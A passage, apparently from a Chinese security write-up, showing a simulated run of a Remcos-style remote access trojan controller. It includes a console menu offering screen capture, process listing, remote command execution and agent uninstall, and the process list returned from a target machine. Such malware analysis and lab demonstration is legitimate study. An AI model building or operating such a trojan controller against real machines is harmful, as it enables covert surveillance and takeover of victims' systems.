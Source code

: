 screen\_capture 指令响应后返回的截图：

[![](assets/1703640255-d54ca8955f6c9422a9a4415882b761ee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226181015-f6d24f2c-a3d6-1.png)

场景模拟实操：

```plain
F:\GolandProjects\Client_Remcos>Client_Remcos.exe
Server started. Listening on 0.0.0.0:8080
初始化连接......
请输入指令：
help
        screen_capture:截屏
        process_manager：进程管理
        command_line：执行命令行
        close：关闭 Agent 进程
        uninstall：卸载 Agent
        exit：退出 Client
请输入指令：
process_manager
current process PID：1580
Process Name    Path    PID
System          4
smss.exe                316
csrss.exe               404
wininit.exe             444
services.exe            544
lsass.exe               564
lsm.exe         572
svchost.exe             680
svchost.exe             744
svchost.exe             816
svchost.exe             892
svchost.exe             956
svchost.exe             1092
HaozipSvc.exe           1220
svchost.exe             1356
spoolsv.exe             1540
svchost.exe             1620
VGAuthService.exe               1984
vm3dservice.exe         1588
vmtoolsd.exe            940
WmiPrvSE.exe            2536
SearchIndexer.exe               2940
```